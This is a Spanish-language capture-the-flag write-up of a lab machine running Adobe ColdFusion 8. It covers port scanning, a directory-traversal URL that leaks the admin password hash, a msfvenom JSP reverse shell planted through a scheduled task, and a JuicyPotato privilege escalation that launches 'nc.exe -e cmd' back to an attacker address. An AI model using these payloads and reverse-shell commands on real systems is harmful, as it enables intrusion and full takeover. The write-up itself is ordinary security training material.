 
# Enumeración | Reconocimiento | y posibles ataques

Envío paquetes de prueba ICMP (Internet Control Message Protocol) hacia el equipo para verificar conectividad y ver el TTL

TTL = 127

Indica que es un equipo Windows

![Texto alternativo](imgs/1.jpg)


Escaneo de puertos TCP abiertos
nmap -p- -sS --min-rate 5000 -vv -n 10.10.10.11 -oG PortStatus

![Texto alternativo](imgs/2.jpg)

Puertos abiertos:

135
8500
49154

Escaneo de servicios en puertos abiertos
nmap -p135,8500,49154 -sCV 10.10.10.11 -oN services

![Texto alternativo](imgs/3.jpg)

Intento de conexión mediante el protocolo RPC (Remote Procedure Call). Indicando con -U y -N que no se utilizarán un nombre de usuario o contraseña para autenticar la conexión, es decir una conexión anónima. Pero da error, no se puede establecer la conexión.

![Texto alternativo](imgs/4.jpg)

Intento conectarme por navegador para ver que es el puerto 8500 y veo archivos
http://10.10.10.11:8500/

![Texto alternativo](imgs/5.jpg)

![Texto alternativo](imgs/6.jpg)

Encontramos archivos .cfm que hace referencia a un lenguaje de programación y un entorno de desarrollo de aplicaciones web que se ejecuta en un servidor web,

En administrator/ encontramos un panel de autenticación de Adobe ColdFusion 8

![Texto alternativo](imgs/7.jpg)

Encontramos que interpreta estas extensiones: 

.asp
.php
.jsp

![Texto alternativo](imgs/8.jpg)

Ingreso credenciales admin:admin
Inspecciono la página
Cambio Type:Password a Text, y veo el siguiente hash

Hash: 0522E54FD1D80375A5662EA794B40F56F02DBB19

Intento crackearlo en www.crackstation.net, pero no lo encuentra

![Texto alternativo](imgs/9.jpg)

Analizo el tipo de hash arrojado por la aplicación con “hashid” y me identifica que varios algoritmos podrían haber sido utilizqados para generar el hash.

![Texto alternativo](imgs/10.jpg)

Analizo también con “hash-identifier” y me indica también SHA1

→ hash-identifier
 
![Texto alternativo](imgs/11.jpg)

Busco vulnerabilidades de Adobe ColdFusion 8

![Texto alternativo](imgs/12.jpg)

Elijo usar la vulnerabilidad de Directory Traversal con el script “multiple/remote/14641.py”

Veo la URL que usa el script para usarlo manualmente:

searchsploit -x  

Agrego en el navegador ?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en a la ruta actual para navegar a: 

http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

Devuelve una contraseña hasheada
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

![Texto alternativo](imgs/13.jpg)

Password: happyday

Ingreso a ColdFusion como admin y contraseña “happyday”

![Texto alternativo](imgs/14.jpg)

En el panel de la izquierda abrir Mappings y Scheduled Tasks

Mappings:

![Texto alternativo](imgs/15.jpg)

Rutas filtradas:
C:\ColdFusion8\wwwroot\CFIDE 
C:\ColdFusion8\gateway\cfc 

Scheduled Tasks → Scheduled New Task

Sabemos que podemos subir archivos .asp, .php, .jsp 
Busco archivo .JSP para subir 






# Explotación y movimiento lateral

msfvenom -l payloads | grep jsp

![Texto alternativo](imgs/16.jpg)

Creo archivo de reverse shell  .jsp con msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -o shellreverse.jsp

![Texto alternativo](imgs/17.jpg)

Comparto el archivo shellreverse.jsp
python3 -m http.server 80

![Texto alternativo](imgs/18.jpg)

Guardo archivo como tarea programada

![Texto alternativo](imgs/19.jpg)

Corro la tarea programada

![Texto alternativo](imgs/20.jpg)

Verifico la carga del archivo

![Texto alternativo](imgs/21.jpg)

Me pongo en escucha por el puerto 443

![Texto alternativo](imgs/22.jpg)

Recibo la consola autenticado como tolis en la máquina víctima

![Texto alternativo](imgs/23.jpg)


# Explotación WEB


# Escalada de privilegios

Detecto el permiso SeImpersonatePrivilege, por lo cual escalo privilegios con “JuicyPotato”

![Texto alternativo](imgs/24.jpg)

Descargar netcat
Descargar juicipotato.exe

Envío los archivos a la máquina víctima con certutil.exe

![Texto alternativo](imgs/25.jpg)

Me pongo en escucha por el puerto 4646

![Texto alternativo](imgs/26.jpg)

Ejecuto el juicyPotato para enviar la consola al 4646

.\juicyPotato.exe -t * -l 1337 -p c:\Windows\System32\cmd.exe -a "/c c:\windows\temp\folder\nc.exe -e cmd 10.10.14.8 4646"

![Texto alternativo](imgs/27.jpg)

Recibo  la consola

![Texto alternativo](imgs/28.jpg)

Encuentro la Flag

![Texto alternativo](imgs/29.jpg)





# Links útiles

www.google.com
www.crackstation.net
  
  
  
## Lenguajes utilizados
## Vulnerabilidades en aplicaciones
## Escalada de privilegios

Abuso de SeImpersonatePrivilege 

## Exploits

Adobe ColdFusion - Directory Traversal | multiple/remote/14641.py
JuicyPotato para explotar SeImpersonatePrivilege

## Herramientas

ping
nmap
rpcclient
certutil.exe
nc.exe
rlwrap
python3 -m http.server 80
java/jsp_shell_reverse_tcp.jsp
searchsploit
msfvenom
hashid
hash-identifier
Crackstation

